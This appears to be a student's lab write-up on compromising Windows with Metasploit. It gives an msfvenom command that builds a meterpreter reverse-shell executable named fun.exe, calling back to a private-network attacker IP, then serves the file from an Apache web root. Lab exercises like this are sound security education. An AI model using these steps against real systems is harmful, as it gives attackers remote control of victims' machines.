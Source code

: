 ## REG.NO:212222110050
## NAME:SWETHA N
# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig

## OUTPUT:

![image](https://github.com/user-attachments/assets/3120e0e1-6fae-46ac-bd78-1c24996a7db9)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:

![image](https://github.com/user-attachments/assets/4f15657f-f462-400e-835c-f5957a0c18e8)


copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/user-attachments/assets/6bb361dd-5b80-42f6-a121-cb1a07825671)


Start apache server sudo systemctl apache2 start




## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
